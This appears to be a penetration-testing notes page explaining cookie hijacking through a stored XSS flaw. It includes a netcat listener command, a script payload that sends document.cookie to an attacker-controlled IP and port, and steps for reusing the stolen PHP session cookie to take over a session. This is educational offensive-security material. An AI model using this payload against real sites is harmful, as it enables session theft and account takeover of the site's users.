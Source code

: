 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Cookie Hijacking

When the application is vulnerable to XSS, we could try to hijack cookies such as session tokens that are being stored on the client-side.

Here we find an example of this scenario:

* In an accessed session we can go to the _Inspect>Application>Cookies_ tab and check the values that are being stored

{% code title="Example Output" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```
Name               Value                              HttpOnly
...                ...                                ...
PHPIDSESSID        e15df96b271a9729837c2bb206b522c7
...                ...                                ...
```
{% endcode %}

{% hint style="info" %}
* If the `HttpOnly` tag is unmarked, indicates that the cookie can interact with JavaScript code
* `PHPIDSESSID` is the default session cookie on PHP-handled pages
{% endhint %}

***

* In case we don't see it directly, we can assume that is configured this way and try to get the cookie values directly to our host machine. For this, we set up a listener port with [_Netcat_](../../networks/tools-and-utilities.md#netcat)

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
nc -nlvp $port
```
{% endcode %}

***

* We can try to make a cookie hijacking using the Stored XSS vulnerable part

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We fill the form with the payload
<script>fetch("$IP:$port" + document.cookie);</script>
#This will get the information on the cookie values
```
{% endcode %}

{% hint style="info" %}
The `$IP` and `$port` values are from our machine and the port opened with _Netcat_
{% endhint %}

***

* Once we have the cookie value we can go to the website page, go to _Inspect>Application>Cookies_ tab, and set the cookie value manually. After that, we can reload the page to update these values on the browser

```bash
Name               Value                             
...                ...                                
PHPIDSESSID        $hijackedCookie     #We set the cookie obtained   
...                ...
#This will log us into the session we stole without the need for credentials
```
